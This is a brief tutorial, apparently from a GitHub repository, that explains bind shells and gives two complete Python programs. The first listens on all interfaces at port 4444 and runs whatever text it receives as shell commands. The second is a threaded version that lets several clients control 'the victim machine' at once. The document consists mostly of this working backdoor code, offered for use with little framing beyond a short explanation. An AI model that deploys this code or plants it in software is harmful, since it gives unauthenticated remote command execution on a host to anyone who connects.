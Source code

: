 ## Table of Contents

  - [Supporting Multiple Connections](#Supporting\Multiple\Connections)

A bind shell is a process that binds to an address and port on the host machine and then listsn for incoming connections to the socket. When a connection is made, the bind shell will repeatedly listen for bytes being sent to it and treat them as raw commands. Once it has received all bytes i chunks of some size, it will run the command on the host system and send back the output.

```python
import socket
import subprocess
import click

def run_cmd(cmd):
    output = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
    return output.stdout

@click.command()
@click.option('--port', '-p', default=4444)
def main(port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0', port))
    s.listen(4)
    client_socket, address = s.accept()

    while True:
        chunks = []
        chunk = client_socket.recv(2048)
        chunks.append(chunk)
        while len(chunk) != 0 and chr(chunk[-1]) != '\n':
            chunk = client_socket.recv(2048)
            chunks.append(chunk)
        cmd = (b''.join(chunks)).decode()[:-1]

        if cmd.lower() == 'exit':
            client_socket.close()
            break

        output = run_cmd(cmd)
        client_socket.sendall(output)

if __name__ == '__main__':
    main()
```

- Downside of the current implementation is once the connection is dropped/shell process stops the  connection is fully lost. This  can be fixed through using `threads` and have the command execution part of the code run in a thread

To keep a very long and complicated story short and straightforward, threads let us run different code pieces `concurrently`, similarly to how humans multitask. Note that concurrently is not the same as parallel. In our example, this means that while one thread is busy doing work for our connected client, another thread (the primary one) is ready to accept a new incoming connection.
- Once another connection is made, these two connected clients can execute code on the victim machine using the same bind shell.


## Supporting Multiple Connections
```python
import socket
import subprocess
import click
from threading import Thread

def run_cmd(cmd):
    output = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
    return output.stdout

def handle_input(client_socket):
    while True:
        chunks = []
        chunk = client_socket.recv(2048)
        chunks.append(chunk)
        while len(chunk) != 0 and chr(chunk[-1]) != '\n':
            chunk = client_socket.recv(2048)
            chunks.append(chunk)
        cmd = (b''.join(chunks)).decode()[:-1]

        if cmd.lower() == 'exit':
            client_socket.close()
            break

        output = run_cmd(cmd)
        client_socket.sendall(output)

@click.command()
@click.option('--port', '-p', default=4444)
def main(port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0', port))
    s.listen(4)

    while True:
        client_socket, _ = s.accept()
        t = Thread(target=handle_input, args=(client_socket, ))
        t.start()

if __name__ == '__main__':
    main()
```









